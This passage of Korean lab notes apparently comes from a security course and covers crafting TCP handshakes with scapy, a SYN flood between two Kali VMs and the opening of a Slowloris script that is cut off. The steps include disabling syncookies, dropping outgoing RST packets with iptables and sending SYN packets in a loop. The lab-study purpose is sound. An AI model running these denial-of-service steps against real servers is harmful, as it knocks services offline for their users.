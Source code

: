     - \>>> ack = ip/TCP(sport=syn_ack[TCP].dport, dport=80, flags="A", seq=syn_ack[TCP].ac, ack=syn_ack[TCP].seq+1)
  - ACK 패킷 전송
    - \>>> send(ack)



칼리#2에서 명령어 창에서 scapy 입력



##### TCP SYN Flooding 

- syn 쿠키 초기화
  - 칼리#1에서 sysctl -a | grep syncookies 명령어 실행
    
    - net.ipv4.tcp_syncookies = 1 >> 백로그 큐를 사용하지 않는다 ==> 응답이 없으면 바로 끊어버리는 것
  
  - sysctl -w net.ipv4.tcp_syncookies=0
  
  - Kali#2에서 RST 패킷이 외부로 나가지 않게 설정
  
    - \# iptables -A OUTPU -p tcp --tcp-flags RST RST -j DROP
  
  - Kali#2 방화벽 정책 확인
  
    - \# iptables -L -n
  
      Chain OUTPUT(policy ACCEPT)
  
      target port opt source destination
  
      DROP tcp -- 0.0.0.0/0 0.0.0.0/0 tcp flags:0x04/0x04
  
  - Kali#2에서 SYN flooding 공격
  
    - \>>> ip = IP()
    - \>>> ip.dst = "192.168.111.130"  (Kali#1의 IP)
    - \>>> tcp = TCP()
    - \>>> tcp.dport = 80
    - \>>> tcp.sport = RandNum(1024, 65535)
    - \>>> tcp.flags = "S"
    - \>>> syn = ip/tcp
    - \>>> send(syn, loop=True)
  
  - Kali#1에서 공격 확인
  
    - wireshack 에서 패킷 확인
    - \# netstat -an | grep -i syn_recv  명령어로 네트워크 상태 확인
  

##### Slowloris Attack

- HTTP 요청 헤더와 본문이 개행문자로 구분되는 특징을 이용한 공격
- 헤더의 끝을 나타내는 개행문자를 전달하지 않아 서버가 연결을 유지하도록 하는 공격

- slowloris.py 등의 이미 짜여져 있는 파일을 사용

```python

#! /usr/bin/env python

import sys
import time
from scapy.all import *

def slowloris (target, num) :
    print "start connect > {}".format(target)
    syn = []
    for i in range(num) :
        syn.append(IP(dst=target)/TCP(sport=RandNum(1024,65535),dport=80,flags='S'))
    syn_ack = sr(syn, verbose=0)[0]

    ack = []
```
